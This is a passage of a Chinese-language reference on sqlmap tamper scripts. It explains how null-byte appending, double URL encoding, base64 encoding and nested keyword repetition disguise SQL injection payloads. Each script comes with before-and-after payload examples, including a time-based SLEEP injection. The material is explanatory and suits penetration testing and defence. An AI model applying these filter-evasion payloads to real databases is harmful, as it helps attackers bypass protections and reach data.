 ```
SELECT FIELD FROM%20TABLE
%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
```

在以下版本做过测试:

```
Microsoft SQL Server 2005
MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0
```

**5:appendnullbyte.py**

作用：在有效负荷结束位置加载零字节字符编码

```
‘1 AND 1=1’
‘1 AND 1=1%00’
```

版本要求:

```
Microsoft Access
```

**6:chardoubleencode.py**

作用: 双 url 编码(不处理以编码的)

示例：

```
SELECT FIELD FROM%20TABLE
%2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545
```

**7:base64encode.py**

作用：用`base64`编码替换

示例：

```
"1' AND SLEEP(5)#"
'MScgQU5EIFNMRUVQKDUpIw=='
```

版本要求:

all

**8:nonrecursivereplacement.py**

作用：双重查询语句。取代 predefined SQL 关键字 with 表示 suitable for 替代（例如 .replace（“SELECT”、””)） filters

示例：

```
'1 UNION SELECT 2--'
'1 UNIOUNIONN SELESELECTCT 2--'
```

在以下版本做过测试:

```
all
```

参考资料：

sqlmap 用户手册中文版：https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/Users-manual/Introduction.html

sqlmap 用户手册：http://drops.xmd5.com/static/drops/tips-143.html
